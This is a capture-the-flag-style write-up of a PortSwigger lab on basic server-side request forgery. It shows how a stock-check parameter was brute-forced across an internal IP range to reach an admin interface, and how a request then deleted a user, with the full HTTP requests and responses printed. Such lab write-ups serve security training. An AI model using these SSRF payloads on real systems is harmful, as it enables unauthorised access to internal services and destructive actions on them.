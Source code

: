 ## Basic SSRF against another back-end system

**Title:** Basic SSRF against another back-end system. [Go](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

**Description:** This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port 8080, then use it to delete the user `carlos`.
 
## Preface

In some cases, the application server is able to interact with back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. The back-end systems are normally protected by the network topology, so they often have a weaker security posture. In many cases, internal back-end systems contain sensitive functionality that can be accessed without authentication by anyone who is able to interact with the systems.

In the previous example, imagine there is an administrative interface at the back-end URL `https://192.168.0.68/admin`. An attacker can submit the following request to exploit the SSRF vulnerability, and access the administrative interface:

```HTTP
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

## Methodology

### Finding the vulnerable parameter

In this particular lab we are interested in stock check feature.

### My Thought

We visited a product page and intercepted the "Check stock" request in Burp Suite and sent it to Burp Intruder. Then we changed the `stockApi` parameter to `http://192.168.0.1:8080/admin` then highlighted the final octet of the IP address (the number 1), clicked "Add §". In Payloads tab, we changed the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively. Clicked the "Start attack" button. After clicking on the "Status" column to sort it by status code ascending. We should see a single entry with a status of 200, showing an admin interface.
We sent the request to Burp Repeater, and changed the path in the `stockApi` to: `/admin/delete?username=carlos`.

![poc_ssrf_backed_ip_bruteforce.png](../imagesssrf_backed_ip_bruteforce.png)

**Request**
```HTTP
POST /product/stock HTTP/2
Host: 0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Cookie: session=2EscN7nbRQMxnFKDC9M5Ual4253ORXiR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net/product?productId=11
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
Origin: https://0add00ba046c41dc80373ab8009b0044.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.38:8080/admin/delete?username=carlos&storeId=1
```

**Response**
```HTTP
HTTP/2 302 Found
Location: http://192.168.0.38:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
